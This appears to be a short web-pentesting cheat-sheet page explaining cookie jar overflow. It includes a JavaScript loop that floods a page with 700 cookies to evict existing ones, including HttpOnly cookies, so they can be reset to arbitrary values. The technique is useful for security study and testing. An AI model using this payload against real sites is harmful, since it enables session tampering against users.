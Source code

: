 Browsers have a limit on the number of cookies they can store for a page. This allows you to supplant cookies by adding new ones:

```javascript
// Set many cookies
for (let i = 0; i < 700; i++) {
    document.cookie = `cookie${i}=${i}; Secure`;
}

// Remove all cookies
for (let i = 0; i < 700; i++) {
    document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
}
```

{% raw %} {% hint style="info" %} {% endraw %}
Third-party cookies pointing to a different domain will not be overwritten
{% raw %} {% endhint %} {% endraw %}

Cookie jar overflow can be used for overwrite `HttpOnly` cookies, so you can remove them and reset with an arbitrary value.

# References

- [HackTricks: Cookie Jar Overflow](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-jar-overflow)
- [Overwriting HttpOnly cookies using cookie jar overflow](https://www.sjoerdlangkemper.nl/2020/05/27/overwriting-httponly-cookies-from-javascript-using-cookie-jar-overflow/)
